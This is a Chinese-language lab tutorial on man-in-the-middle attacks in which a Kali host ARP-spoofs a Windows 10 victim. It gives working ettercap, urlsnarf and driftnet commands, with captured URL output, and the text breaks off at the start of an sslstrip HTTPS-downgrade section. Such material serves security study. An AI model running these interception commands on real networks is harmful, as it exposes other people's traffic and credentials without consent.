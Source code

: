 # Ettercap 实施中间人攻击



中间人攻击(MITM)该攻击很早就成为了黑客常用的一种古老的攻击手段,并且一直到如今还具有极大的扩展空间,MITM攻击的使用是很广泛的,曾经猖獗一时的SMB会话劫持、DNS欺骗等技术都是典型的MITM攻击手段.在黑客技术越来越多的运用于以获取经济利益为目标的情况下时,MITM攻击成为对网银、网游、网上交易等最有威胁并且最具破坏性的一种攻击方式.



| 主机列表   | IP地址         | 网关地址    | 主机作用 |
| :--------- | :------------- | :---------- | :------- |
| Windows 10 | 192.168.1.2/24 | 192.168.1.1 | 被害主机 |
| Kali Linux | 192.168.1.9/24 | 192.168.1.1 | 攻击主机 |



## 抓取内网流量

该方法是最常用的一种攻击方式,主要可以实现对内网主机发起ARP欺骗,从而截取内网主机的流量,但该方法只能截获未加密的数据流加密后是无法破解的,以下例子将演示流量抓取与分析.

**开启APR欺骗:** 首先在`kali linux`上执行以下命令,开启ARP欺骗.

```shell
root@kali:~# ettercap -i eth0 -T -M arp:remote /192.168.1.2// /192.168.1.1// -q

    -i eth0           #指定网卡接口
    -T                #文本模式显示
    -M                #指定为双向ARP欺骗
    /192.168.1.2//    #为要攻击的IP地址
    /192.168.1.1//    #本地的网关地址
```

**截取目标RUL:** 上面终端不要关闭,启用`urlsnarf`工具指定主机访问的URL.

```shell
root@kali:~# urlsnarf -i eth0 |awk '{print $1 " ---> " $7}'

192.168.1.2 ---> http://www.mkdirs.com
192.168.1.2 ---> http://www.baidu.com/
192.168.1.2 ---> http://www.cnblogs.com/lyshark
```

**截取目标图片:** 当然也可以使用`driftnet`工具截取指定主机的图片流.

```shell
root@kali:~# driftnet -i eth0
```



## HTTPS降级嗅探

对SSL流量的嗅探,可以使用sslstrip这个工具,它的原理就是把所有的https流量降级为http流量,相当于一个中间人的角色,它与服务器建立正常的https连接,而与浏览器则使用http连接,使用时需要本机开启流量转发,将80端口的http流量同时转发到10000端口上,在10000端口上使用sslstrip来监听即可:

1.通过命令收集局域网的IP地址信息,和网关等.
